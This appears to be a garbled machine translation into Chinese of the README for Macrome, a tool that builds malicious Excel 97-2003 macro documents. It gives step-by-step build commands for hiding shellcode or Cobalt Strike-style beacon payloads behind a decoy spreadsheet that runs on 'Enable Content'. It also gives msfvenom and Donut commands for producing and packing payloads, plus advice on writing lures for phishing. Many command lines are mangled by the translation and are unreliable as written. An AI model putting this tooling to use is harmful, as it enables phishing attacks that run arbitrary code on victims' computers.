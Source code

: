 例如，要使用诱饵文档`**path/to/decoy_document.xls**`和存储在`**path/to/shellcode.bin**`的二进制 x86 外壳代码构建一个文档，运行`**dotnet Macrome.dll build --decoy-document path/to/decoy_document.xls --payload** /` **`path/to/shellcode.bin`。**这将生成一个 XLS 2003 文档，在打开并按下“启用内容”按钮后，将执行 **`shellcode.bin`的外壳代码。**

### 我应该如何运行它？

文档的其余部分将详细解释每个标志/功能，但现在可以通过运行以下命令获得 Macrome 提供的“最新和最棒的”功能:

**Macrome build–decoy-document decoy _ document . xls–payload beacon . bin–payload 64 位 beacon 64 . bin–payload-method base 64–method arguments subroutines–password velvets weatshop–preamble preamble . txt–output-file-name ready tophish . xls**

### 二进制有效负载使用

首先生成一个基本的“诱饵”Excel 文档，其中包含用户应该看到的内容。这应该是某种诱惑，说服用户点击 Excel 中显示的“启用宏”按钮。在 https://inre . net/blog/2020/05/06/ZLoader-4.0-macro sheets 上有一些“最新和最伟大的”诱饵创作的例子。一旦创建了这个表单，将文档保存为类型`**Excel 97-2003 Workbook (*.xls)**`而不是新的`**Excel Workbook (*.xlsx)**`格式。在`**/Docs/decoy_document.xls**`中有一个诱饵文件的例子。请注意，如果您使用 XOR 模糊处理来保护您的文档，您目前不能向诱饵添加图像。

接下来，生成一个 shellcode 有效负载以提供给工具。示例二进制有效负载(弹出 calc)是使用以下参数通过`**msfvenom**`生成的:

**MSF venom-a x86-b ' \ x00 '–platform windows-p windows/exec cmd = calc . exe-e x86/alpha _ mixed-f raw exit func = thread>pop calc . bin**

还支持 64 位有效负载。示例 64 位有效负载`**popcalc64.bin**`是使用以下命令生成的:

**MSF venom-a x64-b ' \ x00 '–platform windows-p windows/x64/exec cmd = calc . exe-e x64/xor-f raw exit func = thread>pop calc 64 . bin**

然后，可以通过执行以下命令来嵌入该有效负载:

**dot net Macrome.dll 版本–decoy-document decoy _ document . xls–payload pop calc . bin–payload 64 位 popcalc64.bin**

目前，64 位有效负载还需要提供 x86 有效负载。如果这不是问题，您可以为 x86 有效负载标志指定垃圾。

最终会支持嵌入。NET 程序集，但是如果你现在就想这么做，我建议你使用 EXCELntDonut。

从 Macrome 0.5.0 和更高版本开始，所有有效负载都将使用 base64 编码，因此您的有效负载将能够包含任何字节序列(包括空字节)。

#### 嵌入可执行文件

如果您想使用 Macrome 嵌入一个. NET 可执行文件，我建议使用 Donut 和命令`**donut.exe -a 3 -b** **1 -z 1 executableToEmbed.exe**`，然后嵌入生成的有效负载作为您的 32 位和 64 位有效负载。

另一个可靠的选择是 Amber，它非常适合嵌入一些相当大的 Go 二进制文件。

#### 传统有效载荷编码

如果出于某种原因，您想要使用 Macrome 0.5.0 之前版本的传统有效负载编码模式，请使用带有`**SheetPackingMethod**`的`**--payload-**` **`method`** 标志。请注意，在传统模式中，使用多数字母数字有效载荷将减少生成的宏文件的大小，因为用宏形式表示字母和数字比像`**=CHAR(123)&CHAR(124)&CHAR(125)...**`等重复追加`**CHAR**`函数调用更容易。但是该工具也应该能够处理完全不可打印的二进制负载。

### 宏有效载荷使用

类似于二进制有效载荷的使用，必须首先生成诱饵文档。接下来，应该创建一个包含要运行的宏的文本文件。宏应该有由`;`字符分隔的列和由换行符分隔的行。目前，指定的宏内容将从 A1 开始编写和执行——尽管将来会添加支持以允许指定开始位置。宏的例子可以在`**/Docs/macro_example.txt**`和 **`/Docs/multi_column_macro_example.txt`中找到。**
